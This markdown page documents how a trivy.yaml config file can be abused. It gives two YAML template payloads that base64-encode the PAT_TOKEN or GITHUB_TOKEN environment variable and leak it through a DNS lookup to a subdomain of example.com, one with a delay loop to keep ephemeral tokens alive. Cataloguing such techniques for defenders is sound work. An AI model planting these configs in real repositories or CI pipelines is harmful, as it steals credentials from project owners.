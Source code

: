 ```yaml
---
title: trivy
tags:
- cli
- config-file
references:
- https://trivy.dev/latest/docs/references/configuration/config-file/
files: [trivy.yaml]
---
```


`trivy` can be configured via `trivy.yaml` file in the current directory.

## Environment variable exfiltration

An attacker can exfiltrate environment variables using the support for go
templates and [sprig](https://masterminds.github.io/sprig/) functions. An
attacker needs a DNS server with logging to retrieve the subdomain as the payload.

{% raw %}

```yaml
template: "{{ $test := ( printf \"%s.example.com\" ( b64enc ( env \"PAT_TOKEN\" ) ) ) }} {{ getHostByName $test }}"
format: "template"
```

{% endraw %}

For ephemeral tokens, waiting can be added through a loop after the exfiltration.

{% raw %}

```yaml
template: "{{ $test := ( printf \"%s.example.com\" ( b64enc ( env \"GITHUB_TOKEN\" ) ) ) }} {{ getHostByName $test }} {{ range 6500000 }} {{ end }}"
format: "template"
```

{% endraw %}
